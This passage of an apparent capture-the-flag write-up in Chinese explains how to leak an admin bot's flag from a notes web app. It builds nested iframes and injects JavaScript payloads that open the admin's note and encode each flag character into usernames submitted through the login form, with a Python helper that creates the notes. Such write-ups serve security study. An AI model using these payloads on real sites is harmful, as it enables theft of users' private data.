 `NONCE` 的用途是為了避免跟其他解題者相撞。

現在問題來了，怎麼讓 `bot` 註冊符合我們形式的帳號呢？

注意到 `<iframe>`  裡面可以繼續嵌套 `<iframe>`，這使得我們可以邊開著想要 leak 資訊的頁面，邊執行想執行的 script。

受限於長度和 `<iframe>` 的延遲載入，我們所需要的 script 可能沒辦法被放在同一個 note 中；再者，我們也需要用 `<iframe>` 開著 `'/'` 和 `'/login'` 頁面，來讓我們註冊帳號、偷取頁面資訊。

我的 `<iframe>` 構造如下：

- ROOT `<iframe name="a">`
  - `<iframe name='b' src='/'>`
  - `<iframe name='c' src='/login'>`
  - NOTE 0 `<iframe>`
    - script 1 `<br csp='...'>`
    - NOTE 1 `<iframe>`
      - script 2 `<br csp='...'>`
      - NOTE 2 `<iframe>`
        - script 3 `<br csp='...'>`
        - ... keep going if you want

注意到我有幫 `<iframe>` 取名，以便我用 `top.a.b` 來取得 `'/'` 的 window、`top.a.c`  來取得 `'/login'` 的 window。

從撰寫腳本的角度來看，我必須先把所有 `script` 建完，再按照 NOTE 2, NOTE 1, NOTE 0, ROOT 的順序去 create note，實作上我會需要 create 完的 note_id：

```python=
import json

SESSION = requests.Session()  # Already login


def create_note(title, content):
    r = SESSION.post(URL + "api/notes", json={"title": title, "content": content})
    return json.loads(r.text)["id"]
```

我需要以下 4 條 script，注意到我也順便考慮好延時的部分：

```javascript=
setTimeout(()=>top.a.b.noteList.children[0].click(),0);
setTimeout(()=>top.a.c["login-form"].username.value=`{{ i }}_{{ NONCE }}_${top.a.b.note.children[2].textContent.charCodeAt( {{ i }} )}`,1000);
setTimeout(()=>top.a.c["login-form"].password.value= {{ PASSWORD_A }} ,1000);
setTimeout(()=>top.a.c["login-form"].submit(),2000)
```

它們分別做了以下事情：

1. 點下 `admin` 介面唯一的 `note` (`<div>`)。
    - ![image](https://hackmd.io/_uploads/rkgSwx2Dp.png)

2. 把已經跳轉到 `FLAG1` 頁面的 `flag1[i]` 的 ascii 碼跟其他資訊組成 `username`，塞到 `/login` 頁面的 `login-form.username` 中。
    - ![image](https://hackmd.io/_uploads/SyT-dghP6.png)

3. 把密碼 A 塞到 `/login` 頁面的 `login-form.password` 中。
4. submit `/login` 頁面的 `login-form`。
